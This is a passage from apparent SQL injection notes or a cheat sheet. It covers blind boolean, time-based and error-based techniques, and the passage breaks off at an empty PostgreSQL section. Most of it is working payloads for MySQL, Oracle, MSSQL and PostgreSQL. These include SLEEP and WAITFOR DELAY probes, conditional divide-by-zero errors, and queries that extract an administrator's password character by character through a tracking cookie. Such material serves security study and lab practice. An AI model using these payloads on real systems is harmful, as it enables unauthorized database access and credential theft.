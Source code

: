 ```sql
SELECT substring(user(),1,1) = 'r';
```

If the db user is 'root' the result of the query is TRUE. In this case the image will be present and I would be aware of the first letter of the user. I would proceeds with the second one, and so on.

Examples:

```sql
... OR (SELECT SUBSTRING(username,1,1) FROM users WHERE username='administrator')='a' --  # confirms the query is working
... OR (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='p' --  # confirms the query is working
```

### Time-based SQLi

It is identical to a SQLi attack but differs in that **the page output does not show visual errors if the vulnerability is present**.
One of the most common methods of carrying out the attack is the `SLEEP()` function which allows the query to be paused for X seconds. This will allow us to understand, given the loading time of the page, whether or not it is vulnerable to SQLi attacks.
Payload: `' AND SLEEP(5)#`

```sql
# Oracle 	
dbms_pipe.receive_message(('a'),10)

# Microsoft
WAITFOR DELAY '0:0:10'
## Example
QUERY... ; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--

# PostgreSQL
SELECT pg_sleep(10)

# MySQL
SELECT sleep(10)
```

---

## Error base SQLi

You can test a single boolean condition and trigger a database error if the condition is true. 

```sql
# MySQL
select 1, extractvalue(0x0a,concat(0x0a,(<SQL Query HERE>)))
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
'xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'-- -

# Oracle
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
## Example
TrackingId='nh7zNp4i65rBGFKX' AND (SELECT CASE WHEN ((SELECT SUBSTR(password,20,1) FROM users WHERE username='administrator')='§a§') THEN NULL ELSE to_char(1/0) END FROM dual)=1-- -;

# MSSQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END 
cookie1=xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
cookie1=xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

# PostgreSQL
```